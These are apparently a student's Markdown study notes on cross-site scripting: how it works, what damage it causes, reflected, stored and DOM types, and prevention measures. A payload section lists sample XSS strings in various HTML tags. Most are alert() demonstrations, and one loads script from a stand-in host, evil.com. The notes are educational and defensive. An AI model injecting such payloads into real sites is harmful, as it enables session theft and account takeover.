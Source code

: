 # Cross Site Scripting (XSS) 
XSS is one of most common and dangerous types of vulnerabilities in web apps. It can lead to stolen of modified user data! XSS is a client-side code injection technizue where attacker executes malicious scripts by inserting code into a legit and trusted web page or web app. 

### Where does XSS Occur?
On web pages and web apps. Common vulnerable vehicles to deliver malicious scripts include forums, message boards, and web pages that allow comment. 

### Who is Vulnerable to XSS?
Any web page or app that uses **unsanitized** user input in the output it generates. 

### How Does XSS Work?
XSS attacks are possible in VBScript, ActiveX, Flash, and even CSS. Most common in Javasript b/c JS is fundamental to most browsing experiences. 

- Vulnerable website needs to directly include user input in it's pages. Attacker inserts malicious string that is treated as source code by victim's browser. When victim's page loads, malicious code is executed. 

No difference between HTML code that needs to be rendered, and input we sent out. Browser acceptsout input without realizing that there's a script.


### What Damage Can XSS Cause ?
Malicious JS can access to all object that web page has access to
- Session cookies. Attacker can impersonate user, perform actions of behalf of user, and gain access to user's sensitive data. 
- JS can read browser DOM and modify it. 
- JS cann use XMLHttpRequest object to send HTTP requiest with arbitrary content to arbitrary destinations 
- JS can use HTML5 APIs to access geolocation, webcase, microphone, and even specific files 
- Js can edit page styles
- Clickjacking (tricking user into clicking something different from what user perceives)
- Autofill / keychain data

#### Same Origin Policy 
A policy that stops one website from reading or writing data to another. Checks for three things: *Protocol, Host, Port* 

## XSS Attack Vectors 
[List of attack vectors](https://gist.github.com/kurobeats/9a613c9ab68914312cbb415134795b45)
### <script> tag 
Most straightforward XSS payload. Can reference external JS cde or can embed code within script tage itself. 
`<script src=http://evil.com/xss.js></script>`
`<script> alert("wahoo gotcha"); </script>`

### JS Events 
`<body onload=alert("XSS")>`

### `<body>` tag 
`<body background="javascript:alert("XSS")>`

### `<img>` tag 
`<img src="javascript:alert("XSS");">`

### `<input>` tag
`<input type="image" src="javascript:alert('XSS');">`


### `<link>` tag 
`<link rel="stylesheet" href="javascript:alert('XSS');">`

### `<table>` tag 
`<table background="javascript:alert('XSS')">`

### `<div>` tag 
`<div style="background-image: url(javascript:alert('XSS'))">`

# Types of XSS

### Refelcted XSS 
AKA "non-persistent attacks." A common type of XSS attack where input is reflected back in response. Only requires that malicious script be embedded into a link. Do not typically have the same reach as stored XSS attacks. 

### Stored XSS 
AKA "persistent attacks" tends to have more reach than reflected xss because unsanitized input stored in database. Attacker can exploit this by entering malicious code into publicly requestable resource that victim runs. 

### DOM XSS
Rarest type of xss attack becuase easiest to defend against (using templates provided in JS frameworks prevents this vulnerability). Happens entirely on client-side. User's input lands directly inside dangerous part of JS code. Attackers exploit URI fragments (pieuce of url after `#`)

# How to Prevent XSS
Bottom line: Sanitize your input
- **Train and Maintain Awareness:** Be aware of the risks 
- **Distrust User Input:** Treat all user input as untrusted, including input from authenticated and/or internal users
- **Escape/Encode:** Use appropriate escaping/ encoding techniques. Use existing libraries for escaping, don't write your own unless absolutely necessary
- **Sanitize:** Use trusted verified library to pare and clean HTML if input needs to contain HTML b/c escaping/encoding would break valid tags
- **HTTP Only Flag:** Set HttpOnly flag for cookies so they arent accessible via client-side JS
- **Content Security Policy:** Use content security policy (CSP), an HTTP response header that lets you declare dynamic resources that are allowed to load dependinng on request soruce. 

# Resources 
- https://www.acunetix.com/websitesecurity/cross-site-scripting/
- https://www.acunetix.com/blog/articles/preventing-xss-attacks/
- https://xss-game.appspot.com/
